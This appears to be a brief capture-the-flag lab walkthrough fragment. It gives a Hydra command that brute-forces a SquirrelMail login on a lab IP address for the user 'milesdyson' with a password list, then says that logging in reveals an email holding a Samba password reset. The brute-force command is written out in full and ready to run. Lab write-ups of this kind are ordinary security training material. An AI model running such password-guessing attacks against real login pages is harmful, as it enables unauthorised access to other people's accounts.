


hydra -l milesdyson -P /home/faqih/Crack/pass.txt 10.10.82.56 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -V

Go to http://ip-address/squirrelmail/ then login into the milesdyson credential
The email contain samba password reset.
